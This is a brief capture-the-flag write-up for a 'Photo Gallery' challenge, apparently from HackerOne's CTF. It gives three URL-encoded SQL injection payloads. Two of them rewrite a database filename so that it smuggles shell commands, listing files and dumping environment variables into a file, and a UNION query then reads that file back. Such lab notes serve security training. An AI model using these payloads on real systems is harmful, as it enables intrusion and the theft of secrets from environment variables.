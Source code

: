 # Photo Gallery
- [ ] Flag1, Flag2, Flag3
- All three flags were located in the same location, however I found Flag2 first technically by using SQLmap
- I found all three by using SQL injection to rename different files within the database, and then specifically call them in `requirements.txt`
- The SQL injection attacks I used were
	- `/fetch?id=1;%20update%20photos%20set%20filename=%27*%20||%20ls%20./files%20%3Etemp.txt%20%27%20where%20id=3;%20commit;%20--`
	- `/fetch?id=1;%20update%20photos%20set%20filename=%27*%20||%20env%20%3Etemp.txt%27%20where%20id=3;%20commit;%20--`
	- `/fetch?id=4 UNION SELECT 'temp.txt'--`

![[SQLI.png]]

![[SQLI2.png]]

![[SQLI3.png]]




%%
Tags
#HackerOne
#CTF 
#HackReport
%%